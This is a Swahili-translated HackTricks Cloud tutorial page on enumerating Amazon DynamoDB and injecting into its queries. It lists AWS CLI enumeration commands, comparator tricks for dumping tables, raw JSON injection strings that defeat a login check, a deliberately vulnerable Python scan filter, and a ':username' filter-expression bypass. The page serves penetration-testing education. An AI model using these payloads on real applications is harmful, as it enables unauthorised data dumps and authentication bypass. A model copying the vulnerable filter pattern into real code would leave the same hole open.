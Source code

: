 # AWS - DynamoDB Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## DynamoDB

### Basic Information

Amazon DynamoDB inawasilishwa na AWS kama **hifadhidata ya NoSQL isiyo na seva, inayosimamiwa kikamilifu, ya funguo-thamani**, iliyoundwa kwa ajili ya kuendesha programu zenye utendaji wa juu bila kujali ukubwa wao. Huduma hii inahakikisha vipengele thabiti ikiwa ni pamoja na hatua za usalama zilizojengwa ndani, nakala za usalama zisizokatizwa, uzalishaji wa kiotomatiki katika maeneo mbalimbali, uhifadhi wa data wa ndani uliounganishwa, na zana za usafirishaji wa data rahisi.

Katika muktadha wa DynamoDB, badala ya kuanzisha hifadhidata ya jadi, **meza zinaundwa**. Kila meza inahitaji kufafanua **funguo ya sehemu** kama sehemu muhimu ya **funguo kuu ya meza**. Funguo hii ya sehemu, ambayo kimsingi ni **thamani ya hash**, ina jukumu muhimu katika upatikanaji wa vitu na usambazaji wa data kati ya mwenyeji mbalimbali. Usambazaji huu ni muhimu kwa kudumisha upanuzi na upatikanaji wa hifadhidata. Aidha, kuna chaguo la kuingiza **funguo ya kupanga** ili kuboresha zaidi shirika la data.

### Encryption

Kwa kawaida, DynamoDB inatumia funguo ya KMS ambayo **ni ya Amazon DynamoDB,** hata si funguo inayosimamiwa na AWS ambayo angalau inamilikiwa na akaunti yako.

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### Backups & Export to S3

Inawezekana **kuweka ratiba** ya uzalishaji wa **nakala za meza** au kuziunda kwa **mahitaji**. Aidha, inawezekana pia kuwezesha **Urejeleaji wa wakati (PITR) kwa meza.** Urejeleaji wa wakati unatoa **nakala** za data zako za DynamoDB kwa **siku 35** ili kusaidia kulinda dhidi ya shughuli za kuandika au kufuta zisizokusudiwa.

Pia inawezekana kusafirisha **data ya meza kwenda S3**, lakini meza inahitaji kuwa na **PITR imewezeshwa**.

### GUI

Kuna GUI kwa huduma za Dynamo za ndani kama [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack), nk, ambazo zinaweza kuwa na manufaa: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Enumeration
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### Upatikanaji Usioidhinishwa

{% content-ref url="../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md" %}
[aws-dynamodb-unauthenticated-access.md](../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md)
{% endcontent-ref %}

### Privesc

{% content-ref url="../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

### Baada ya Kutekeleza

{% content-ref url="../aws-post-exploitation/aws-dynamodb-post-exploitation.md" %}
[aws-dynamodb-post-exploitation.md](../aws-post-exploitation/aws-dynamodb-post-exploitation.md)
{% endcontent-ref %}

### Kudumu

{% content-ref url="../aws-persistence/aws-dynamodb-persistence.md" %}
[aws-dynamodb-persistence.md](../aws-persistence/aws-dynamodb-persistence.md)
{% endcontent-ref %}

## DynamoDB Injection

### SQL Injection

Kuna njia za kufikia data za DynamoDB kwa kutumia **sintaksia ya SQL**, hivyo basi, **injections za SQL za kawaida pia zinaweza**.

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### NoSQL Injection

Katika DynamoDB masharti tofauti yanaweza kutumika kupata data, kama katika NoSQL Injection ya kawaida ikiwa inawezekana **kuunganisha masharti zaidi ili kupata** data unaweza kupata data iliyofichwa (au kupakua jedwali zima).\
Unaweza kupata hapa masharti yanayoungwa mkono na DynamoDB: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html)

Kumbuka kwamba **masharti tofauti** yanayoungwa mkono ikiwa data inafikiwa kupitia **`query`** au kupitia **`scan`**.

{% hint style="info" %}
Kwa kweli, hatua za **Query** zinahitaji kubainisha **sharti "EQ" (sawa)** katika **funguo** ya **msingi** ili kufanya kazi, na kufanya iwe **hatarishi kidogo kwa NoSQL injections** (na pia kufanya operesheni hiyo kuwa na mipaka sana).
{% endhint %}

Ikiwa unaweza **kubadilisha kulinganisha** kunakofanywa au kuongeza mpya, unaweza kupata data zaidi.
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

### Raw Json injection

{% hint style="danger" %}
**Uthibitisho huu unategemea dynamodb Scan Filter ambayo sasa imeondolewa!**
{% endhint %}

**DynamoDB** inakubali **Json** vitu kutafuta data ndani ya DB. Ikiwa unapata kuwa unaweza kuandika katika kitu cha json kilichotumwa kutafuta, unaweza kufanya DB dump, maudhui yote.

Kwa mfano, kuingiza katika ombi kama: 

{% code overflow="wrap" %}
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
{% endcode %}

mshambuliaji anaweza kuingiza kitu kama:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

sahihisha hali ya "EQ" ikitafuta ID 1000 na kisha kutafuta data zote zikiwa na mfuatano wa Id kubwa zaidi ya 0, ambayo ni yote.

Mfano mwingine **ulio hatarini ukitumia kuingia** unaweza kuwa:
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
Hii itakuwa na hatari ya:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

Baadhi ya SDKs zinaruhusu kutumia mfuatano unaoashiria uchujaji utakaofanywa kama: 

{% code overflow="wrap" %}
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
{% endcode %}

Unahitaji kujua kwamba kutafuta katika DynamoDB kwa **kubadilisha** thamani ya **sifa** katika **maelezo ya filtr** wakati wa kusoma vitu, tokeni zinapaswa **kuanza** na tabia ya **`:`**. Tokeni kama hizo zitakuwa **zinabadilishwa** na thamani halisi ya **sifa wakati wa wakati wa kutekeleza**.

Hivyo, kuingia kama ile ya awali inaweza kupuuziliwa mbali na kitu kama:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
